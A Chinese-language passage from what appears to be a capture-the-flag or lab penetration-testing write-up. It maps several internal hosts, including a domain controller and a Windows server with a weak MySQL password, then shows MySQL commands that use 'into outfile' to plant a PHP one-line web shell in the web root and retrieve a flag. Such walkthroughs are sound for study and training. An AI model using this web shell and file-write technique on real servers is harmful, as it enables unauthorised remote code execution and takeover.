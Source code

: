 :::success  
172.22.13.14 `本机地址`  
172.22.13.57 `开放80,22,2049 NFS`  
172.22.13.28 8000,3306,80 WIN-HAUWOLAO，存在 mysql 弱口令  
172.22.13.6 `WIN-DC DC`  
:::

### 代理渗透 mysql

做一个`windows` sock5 代理，利用`navicat`链接上去后  
写`secure_file_priv`日志木马

```bash
show variables like "secure_file_priv";
show variables like "%general%"
## 写一个一句话木马
select "<?php eval($_POST[1]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

写木马后，链接地址`[http://172.22.13.28/1.php](http://172.22.13.28/1.php)`，成功获取`flag3`

[![](assets/1709193375-18131dc015778280d31f0bcd13999fa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205206-0347efcc-d56f-1.png)

这里可以创建一个用户连接`rdp`
